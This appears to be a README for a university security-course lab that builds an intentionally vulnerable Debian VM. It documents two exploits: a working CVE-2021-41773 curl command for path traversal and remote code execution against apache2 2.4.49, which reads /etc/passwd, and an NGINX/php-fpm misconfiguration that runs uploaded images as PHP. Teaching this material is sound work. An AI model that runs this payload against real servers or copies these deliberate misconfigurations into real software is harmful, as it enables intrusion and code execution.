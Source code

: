 # Files in this repo

## setup.sh

This file is intended to be executed as root on the guest VM. Do not run it on your host OS; it will do bad things. You can (and perhaps should) run this file line by line since it does no error checking.

This script will:
* Install sudo, build-essential, and the build dependencies for apache2
* Install NGINX, MariaDB, and php-fpm
* Add a default 404 page, abronsius.cpsc4270.local, and alfred.cpsc4270.local to NGINX
* Create the user `abronsius` (if not existing) and add it to the sudoers list
* Download, build, and install apache2 2.4.49 at `/home/abronsius/apache2`
* Configure apache2 to serve files and enable cgi-bin
* ... more coming later

TODO:
* Automate database account creation and permissions
* Get XenForo installation and configuration automated
* And more!

# VM OS

The OS is Debian 11.1 Bullseye but any Debian-based OS should also work. I don't recommend deviating from this choice in case there are compatibility issues, and any non-Debian OS will require installing and configuring everything manually. Download via [Torrent](https://cdimage.debian.org/debian-cd/current/amd64/bt-cd/debian-11.1.0-amd64-netinst.iso.torrent) or directly via [ISO](https://cdimage.debian.org/debian-cd/current/amd64/iso-cd/debian-11.1.0-amd64-netinst.iso). The sha256sum of the ISO is `8488abc1361590ee7a3c9b00ec059b29dfb1da40f8ba4adf293c7a30fa943eb2` to double check that you've obtained the correct file.

# VM Configuration

The VM can be installed using any software (qemu/kvm, VirtualBox, VMWare, etc.)
The only requirement is network access with its own IP address. This can (and should) be a totally local network. The VM will contain several serious security flaws and therefore should not be available over the Internet.

# Exploits

## Exploit Target 1: Apache

### Exploit 1: CVE-2021-41773

This vulnerability is trivial to exploit and results in directory traversal, local file inclusion, and remote code execution. This exploit takes advantage of a new form of URL normalisation added in this version of apache2 which did not appropriately check against URL-encoded paths, which in this instance allows moving up from the cgi-bin directory and executing arbitrary code on the remote server. This line brings the directory up to `/` and then executes `/bin/sh` and passes `echo;ls -alh /etc/passwd;whoami;uname -a` to the opened shell.

Remote code execution:
```sh
curl --path-as-is "http://127.0.0.1:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo;ls -alh /etc/passwd;whoami;uname -a"
```

Example output:
```
-rw-r--r-- 1 root root 1.6K Oct 23 23:38 /etc/passwd
abronsius
Linux dbsec-vm-main 5.10.0-9-amd64 #1 SMP Debian 5.10.70-1 (2021-09-30) x86_64 GNU/Linux
```
## Exploit Target 2: NGINX+php-fpm+UGC

### Exploit 2: Misconfigured NGINX fastcgi_pass for PHP

This exploit results in RCE on the php-fpm process (running as www-data as currently configured) which can then be leaveraged to connect directly to the locally running apache server running as the abronsius user and execute another RCE to obtain access to that user's files.

The exploit allows executing arbitrary files as PHP because NGINX has been poorly configured to pass any URL ending in .php to php-fpm, and php-fpm has been configured to allow the execution of files not ending in .php via `security.limit_extensions`. This exploit would also work on earlier versions of PHP before this option was added.

If a user uploads an image which gets saved as `avatar1000.png` for example, which happens to contain PHP code, it could be executed by browsing to a URL such as `http://alfred.cpsc4270.local/imgs/avatar1000.png/some.php`. This works because NGINX was not configured to verify that such a file exists, and PHP will happily read from left to right until it finds a file that exists and execute it, so the trailing /some.php isn't considered for this purpose.
